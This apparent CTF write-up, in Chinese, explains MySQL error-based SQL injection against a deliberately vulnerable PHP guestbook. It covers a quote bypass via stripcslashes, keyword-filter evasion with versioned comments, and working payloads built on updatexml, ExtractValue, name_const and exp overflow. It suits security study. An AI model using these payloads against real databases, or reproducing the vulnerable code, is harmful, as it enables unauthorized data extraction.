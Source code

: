 title: MySQLi-Error Injection
date: 2016-04-08 17:52:02
tags: sqli
---
本篇文章源于一道三个白帽的题目

<!--more-->

该题源码
```
<?php
include 'config.php';
foreach(array('_GET','_POST','_COOKIE') as $key){
    foreach($$key as $k => $v){
        if(is_array($v)){
            errorBox("hello,sangebaimao!");
        }else{
            $k[0] !='_'?$$k = addslashes($v):$$k = "";
        }
    }
}

function filter($str){
    $rstr = "";
    for($i=0;$i<strlen($str);$i++){
        if(ord($str[$i])>31 && ord($str[$i])<127){
            $rstr = $rstr.$str[$i];
        }
    }
    $rstr = str_replace('\'','',$rstr);
    return $rstr;
}


if(!empty($message)){
    if(preg_match("/\b(select|insert|update|delete)\b/i",$message)){
        die("hello,sangebaimao!");
    }
    if(filter($message) !== $message){
        die("hello,sangebaimao!");
    }

    $sql="insert guestbook(`message`) value('$message');";
    mysql_query($sql);
    $sql = "select * from guestbook order by id limit 0,5;";
    $result = mysql_query($sql);
    if($result){
        while($row = mysql_fetch_array($result)){
            $id = $row['id'];
            $message = $row['message'];
            echo "|$id|=>|$message|<br/>";
        }
    }

    $message = stripcslashes($message);
    $sql = "delete from guestbook where id=$id or message ='$message';";
    if(!mysql_query($sql)){
        print(mysql_error());
        $sql = "delete from guestbook where id=$id";
        mysql_query($sql);
    };
}
?>
```

这题读完一遍源码之后，就知道需要bypass单引号和`preg_match("/\b(select|insert|update|delete)\b/i",$message)`， 然后是二次注入+报错注入.

bypass单引号是借助`stripcslashes($message);`该函数，所以使用`?message=aaa\x27` 来bypass单引号，这不是本篇重点，就不多说了。

然后使用`/*!00000select*/` 来bypass `preg_match("/\b(select|insert|update|delete)\b/i",$message)`

`/*!*/` 只在mysql中有用，在别的数据库中这只是注释，但是在mysql，`/*!select 1*/`可以成功执行，在语句前可以加上5位数字，代表版本号，表示只有在大于该版本的mysql中不作为注释
eg:
```
mysql> select version();
+-----------+
| version() |
+-----------+
| 5.7.9-log |
+-----------+
1 row in set (0.00 sec)

mysql> select /*!50709version()*/;
+-----------+
| version() |
+-----------+
| 5.7.9-log |
+-----------+
1 row in set (0.00 sec)

mysql> select /*!50710version()*/;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1
```

好了，现在可以进行注入了，因为有一句`print(mysql_error());`，所以可以报错注入了：
<del>报错注入是从写bug中发现的么？</del>

## 使用updatexml

payload:
```
?message=aaa\x27 and updatexml(0,concat(0x27,(/*!00000select version()*/)),0)%23
```

`UpdateXML(xml_target, xpath_expr, new_xml)`
updatexml函数有三个参数，作用是xml替换，把`xml_target`中被`xpath_expr`匹配到的部分使用`new_xml`替换

这个报错注入的原理是利用updatexml的参数错误，首先不能有语法错误，要不然注入的语句根本无法执行，语法正确后，先去执行`concat(0x27,(/*!00000select version()*/))`,得到`'5.5.42-log`,作为第二个参数传入updatexml函数中，而updatexml第二个参数为xml的匹配表达式，单引号为非法字符，因此报错，输出错误内容`'5.5.42-log`, 因此得到了你想要得到的数据

## 使用ExtractValue()

payload:
```
?message=aaa\x27 and ExtractValue(0,concat(0x27,(/*!00000select version()*/)))%23
```

这个同理上面的，不过区别是
`ExtractValue(xml_frag, xpath_expr)` 得到`xml_frag`中被`xpath_expr`匹配到的值

不过extractvalue和updatexml有个缺陷是，报错数据最大长度为32

## 使用name_const

payload:
```
?message=aaa\x27%20and%20(/*!00000SELECT*/ * FROM(/*!00000SELECT*/(name_const(version(),1)),name_const(version(),1))a)%23
```

```
mysql> select name_const('a','b');
+------+
| a    |
+------+
| b    |
+------+
1 row in set (0.00 sec)

mysql> /*!00000SELECT*/(name_const(version(),1)),name_const(version(),1); +-----------+-----------+
| 5.7.9-log | 5.7.9-log |
+-----------+-----------+
|         1 |         1 |
+-----------+-----------+
1 row in set (0.00 sec)
```

本题利用的是表的字段名不允许重复，报错长度没有限制

## 利用exp报错

payload:
```
?message=aaa\x27 and (/*!00000select exp(~(/*!00000select*/ * from (/*!00000select*/ version())a)))%23
```

利用double型溢出，可参考<http://drops.wooyun.org/tips/8166>

## 利用floor报错

可参考<http://www.jinglingshu.org/?p=4507>, 对于`floor` 报错注入我理解的不是特别透彻

## 利用join报错

`join` 可用来报列名，同样可参考上面那个链接，本题不是一个很好的join报错案例